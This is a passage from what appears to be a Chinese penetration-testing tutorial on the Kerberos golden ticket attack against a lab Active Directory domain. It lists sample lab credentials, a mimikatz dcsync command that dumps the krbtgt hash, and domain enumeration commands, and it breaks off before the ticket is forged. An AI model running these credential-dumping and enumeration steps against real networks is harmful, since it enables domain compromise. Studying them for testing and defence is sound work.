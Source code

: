 * IP：192.168.100.146
* 域名：pentest.com
* 用户名：dm
* 密码：a123456@

##### 导出krbtgt的NTLM Hash

打开命令行环境，加载mimikatz：

```powershell
lsadump::dcsync /domain:pentest.com /user:krbtgt
```

这会使用mimikatz的dcsync功能转储远程AD的ntds.dit，指定/user可以只导出krbtgt的信息。

##### 获取基本信息

1. 获取域SID

   在命令行环境输入命令：

   ```powershell
   wmic useraccount get name,sid
   ```

   这种方式可以通过普通域用户权限获取域内所有用户的SID。

2. 获取当前用户的SID

   输入如下命令，获取当前用户的SID：

   ```powershell
   whoami /user
   ```

3. 查询域管账号

   ```powershell
   net group "domain admins" /domain
   ```

4. 查询域名

   ```powershell
   ipconfig /all
   ```

##### 生成并注入黄金票据

1. 查看当前用户极其所属组

   ```powershell
   net user dm /domain
   ```

2. 检查权限

   ```powershell
   dir \\dc\c$
   ```

   如果提示`Access is denied`，则表示权限不足。
